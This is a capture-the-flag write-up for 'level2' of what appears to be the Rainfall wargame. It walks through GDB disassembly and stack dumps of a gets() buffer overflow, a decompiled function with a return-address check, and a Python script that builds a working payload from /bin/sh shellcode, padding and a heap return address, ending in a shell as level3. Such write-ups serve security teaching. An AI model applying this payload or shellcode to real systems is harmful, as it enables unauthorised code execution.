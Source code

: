 # Level2
Level2 is a follow up to buffer overflows vulnerabilities. 

# Tools
GDB

# Walkthrough
The home of level2 contains a binary, called level2. 
Using GDB, we can disassemble it and we get the assembly code:
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We see that the programme calls a function p, we can confirm it by asking gdb for information on the used functions in the binary:

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
Let's disassemble p:
```
(gdb) disass p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

We are going to break at the main, before the call of `p` (address **0x08048545**) and before the `gets` call in `p` (address **0x080484ed**). 

We run the programme until we hit our third breakpoint (before the `gets` call).
We dump the content of the stack before inputing in `gets`, we input 4 'A' (`0x41`), and 4 'B' (`0x42`), and redump the content of the memory to check where does our buffer begins.

```
Breakpoint 3, 0x080484ed in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x00000001
0xbffff6a0:	0xbffff8bf	0x0000002f	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
(gdb) ni
AAAABBBB
0x080484f2 in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
```
We can see that our 'A' and 'B' have been written starting at address **0xbffff69c**.
The return address for `main` is **0x0804854a**. 

If we dump a little more of the stack, we get:
```
(gdb) x/120x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0xbffff6f8	0x0804854a
...
```
Where we can see the return address (last piece of data).
So, the return address is stored at **0xbffff6ec**, and the buffer starts at **0xbffff69c**. The buffer obviously grows towards higher addresses, thus we need to write **0xbffff6ec** - **0xbffff69c** = **0x50** = 80 characters before overwriting the return address.

By passing the binary to Hex-Rays, we get an approximative code of `p`:
```c
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 ) // 0xB0000000 = -1342177280 (signed) 
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

The `if` line is interesting. `(retaddr & 0xB0000000)` will only take the first 4 bytes of `retaddr`, and compare them to `-1342177280`, which is `0xB0000000`. 

For context, in older Linux distributions, that used to run on 32-bit, some memory spaces had known ranges. Typically, the User Space's range was from `0x00000000` from `0xBFFFFFFF` (3GB of the 4GB of the 32bit system), when the Kernel Space's range was from `0xC0000000` to `0xFFFFFFFF` (1GB of the 4GB). When some data from the User Space leaked on the Kernel Space, it was blocked and resulted into a segmentation fault.   

Thus, the `if` line is checking whether or not the return address is located in the User Space, which could mean that it has been tampered. It is a very primitive way of protecting against certain buffer overflows (modern sytems use the NX Flag (non-executable stack) and ASLR (Address Space Layour Randomisation)).

The user space stacks usually started at around `0xC0000000` (at the top of the space) and grew downwards. Thus, they are in the `0xB...` space and making a stack overflow would be interrupted by the `if` line, or it might take an enormous overflow and taking care of many considerations. 

A simpler solution is to make a Heap overflow, as the Heap tends to have lower memory addresses.
Moreover, we see in the code that `p` calls `strdup`, which calls `malloc`, a function used to allocate memory... on the heap!

By running the `level2` binary with `ltrace` multiple times, we see that it always points out to the same return address, `0x0804a008`, which is **NOT** in the `0xB...` range. Good!

```
level1@Rainfall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7b4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                            = 0
gets(0xbffff6bc, 0, 0, 0xb7e5ec73, 0x80482b5test
)                                 = 0xbffff6bc
puts("test"test
)                                                                  = 5
strdup("test")                                                                = 0x0804a008
+++ exited (status 8) +++
```

The idea now is to craft a payload that will give us a shell and overwrite the return address by the return address outside of the `0xB...` space, the one of `strdup`!

A shellcode database can be found [here](https://shell-storm.org/shellcode/index.html), we are going to use this [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html) from kernel_panik. 

We now have a shellcode, a buffer length, and a return address, let's make our payload:
```py
len_buffer = 80
shell_code = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
return_address = b"\x08\xa0\x04\x08"

payload = (
    shell_code +
    b"A" * (len_buffer - len(shell_code)) +
    return_address
)

print(payload)
```
Give yourself all the permissions on the home of level2, `scp` the script onto the machine, redirect its output to a file exploit the binary:
```bash
cat attack.txt - | ./level2
1���Qh//shh/bin��
                  ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```
Grab the password, and level2 completed!
